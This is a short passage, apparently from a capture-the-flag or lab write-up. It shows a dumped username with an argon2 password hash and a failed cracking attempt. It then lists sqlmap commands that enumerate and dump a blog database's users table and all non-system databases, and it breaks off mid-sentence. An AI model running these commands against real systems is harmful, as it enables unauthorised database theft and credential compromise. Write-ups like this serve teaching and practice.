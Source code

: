 user: **chris_w**

pass: **\$argon2i\$v=19\$m=65536,t=16,p=2\$UnlVSEgyMUFnYnJXNXlXdg\$j6z3IshmjsN+CwhciRECV2NArQwipqQMIBtYufyM4Rg**

Hash is in **argon2** format:

Attempted to crack it with a python script - Argon2_Cracker but it took too long and crashed

- Do the same for blog database:
  
```bash
sqlmap -r request --batch -D blog --tables

sqlmap -r request --batch -D blog -T users --columns

sqlmap -r request --batch -D blog -T users -C username,password,id --dump

```

![image21](../resources/36619d94d1204ee5882f32500a05cd9e.png)

- Or just do:
  
```bash
sqlmap -r request --batch --dump-all --exclude-sysdb

```
The output is in:
